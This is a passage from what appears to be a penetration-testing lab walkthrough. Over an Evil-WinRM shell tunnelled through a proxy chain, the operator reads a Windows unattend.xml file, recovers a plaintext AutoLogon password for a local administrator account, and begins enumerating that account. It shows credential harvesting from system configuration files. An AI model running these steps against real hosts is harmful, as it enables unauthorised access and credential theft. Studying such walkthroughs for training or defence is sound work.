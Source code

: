 
    Directory: C:\panther


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/1/2022   2:17 PM           6995 unattend.xml
</code></pre>
<p>Let's check to see if it contains any passwords, as they sometimes do.</p>
<pre><code class="language-shell-session">
*Evil-WinRM* PS C:\panther&gt; type unattend.xml

|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.50:5985-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.50:5985-&lt;&gt;&lt;&gt;-OK
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;unattend xmlns="urn:schemas-microsoft-com:unattend"&gt;
    &lt;settings pass="oobeSystem"&gt;
        &lt;component name="Microsoft-Windows-International-Core" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"&gt;
            &lt;InputLocale&gt;de-de&lt;/InputLocale&gt;
            &lt;SystemLocale&gt;de-de&lt;/SystemLocale&gt;
            &lt;UILanguage&gt;de-de&lt;/UILanguage&gt;
            &lt;UILanguageFallback&gt;de-de&lt;/UILanguageFallback&gt;
            &lt;UserLocale&gt;de-de&lt;/UserLocale&gt;
        &lt;/component&gt;
        &lt;component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"&gt;
            &lt;OOBE&gt;
                &lt;HideEULAPage&gt;true&lt;/HideEULAPage&gt;
                &lt;HideWirelessSetupInOOBE&gt;true&lt;/HideWirelessSetupInOOBE&gt;
                &lt;NetworkLocation&gt;Work&lt;/NetworkLocation&gt;
                &lt;ProtectYourPC&gt;1&lt;/ProtectYourPC&gt;
            &lt;/OOBE&gt;
            &lt;AutoLogon&gt;
                &lt;Password&gt;
                    &lt;Value&gt;Sys26Admin&lt;/Value&gt;
                    &lt;PlainText&gt;true&lt;/PlainText&gt;
                &lt;/Password&gt;
                &lt;Enabled&gt;true&lt;/Enabled&gt;
                &lt;LogonCount&gt;1&lt;/LogonCount&gt;
                &lt;Username&gt;ilfserveradm&lt;/Username&gt;
            &lt;/AutoLogon&gt;
        
        &lt;SNIP&gt;

        &lt;/component&gt;
    &lt;/settings&gt;
&lt;/unattend&gt;
</code></pre>
<p>We find credentials for the local user <code>ilfserveradm</code>, with the password <code>Sys26Admin</code>.</p>
<pre><code class="language-shell-session">*Evil-WinRM* PS C:\panther&gt; net user ilfserveradm
